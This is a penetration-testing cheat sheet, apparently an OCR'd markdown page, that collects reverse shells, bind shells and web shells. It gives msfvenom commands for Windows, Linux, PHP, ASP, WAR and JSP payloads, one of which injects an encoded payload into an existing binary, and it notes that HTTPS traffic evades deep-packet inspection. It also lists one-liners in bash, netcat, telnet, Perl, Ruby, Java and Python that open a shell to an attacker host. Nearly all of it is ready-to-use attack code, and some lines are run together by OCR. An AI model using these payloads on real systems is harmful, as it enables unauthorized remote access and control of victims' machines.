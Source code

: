 # **Shells**

This is s great collection of different types of reverse shells and webshells. Many of the ones listed below comes from this cheat-sheet:
- [https://highon.coffee/blog/reverse-shell-cheat-sheet/](https://highon.coffee/blog/reverse-shell-cheat-sheet/)
- [http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

## **Windows**

**Meterpreter**

**Standard meterpreter**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=445 -f exe -o shell_reverse.exe
```

```
use exploit/multi/handlerset payload windows/meterpreter/reverse_tcp
```

**Meterpreter HTTPS**

It makes the meterpreter-traffic look normal. Since it is hidden in https the communication is encrypted and can be used to bypass deep-packet inspections.

```
msfvenom -p windows/meterpreter/reverse_https LHOST=ip LPORT=443 -f exe -o met_https_reverse.exe
```

**Non-staged payload**

```
msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=445 -f exe -o shell_reverse_tcp.exe
```

```
use exploit/multi/handlerset payload windows/shell_reverse_tcp
```

**Staged payload**i

```
This must be caught with metasploit. It does not work with netcat.
```

```
use exploit/multi/handlerset payload windows/shell/reverse_tcp
```

### **Inject payload into binary**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=445 -f exe -e x86/shikata_ga_nai -i 9 -x "/somebinary.exe" -o bad_binary.exe
```

## **Linux**

## **Binary**

```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=ip LPORT=443 -f elf > shell.elf
```

## **Bash**

```
0<&196;exec 196<>/dev/tcp/ip/80; sh <&196 >&196 2>&196
```

```
bash -i >& /dev/tcp/ip/8080 0>&1
```

## **Php**

```
php -r '$sock=fsockopen("ATTACKING-IP",80);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## **Netcat**

**Bind shell**

```
#Linuxnc -vlp 5555 -e /bin/bashnc ip 5555# Windowsnc.exe -nlvp 4444 -e cmd.exe
```

## **Reverse shell**

```
Linuxnc -lvp 5555nc ip 5555 -e /bin/bash# Windowsnc -lvp 443nc.exe ip 443 -e cmd.exe
```

## **With -e flag**

```
nc -e /bin/sh ATTACKING-IP 80
```

```
/bin/sh | nc ATTACKING-IP 80
```

**Without -e flag**

```
rm -f /tmp/p; mknod /tmp/p p && nc ATTACKING-IP 4444 0/tmp/p
```

## **Ncat**

Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentestjob you might not want to communicate unencrypted.

Bind

```
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --sslncat -v ip 5555 --ssl
```

## **Telnet**

```
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## **Perl**

```
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## **Ruby**

```
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### **Java**

```
r = Runtime.getRuntime()p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/ATTACKING-IP/80;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])p.waitFor()
```

## **Python**

```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKING-IP",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## **Web-shells**

### **PHP**

This php-shell is OS-independent. You can use it on both Linux and Windows.

```
msfvenom -p php/meterpreter_reverse_tcp LHOST=ip LPORT=443 -f raw > shell.php
```

### **ASP**

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ip LPORT=443 -f asp > shell.asp
```

### **WAR**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ip LPORT=443 -f war > shell.war
```

### **JSP**

```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=ip LPORT=443 -f raw > shell.jsp
```

 
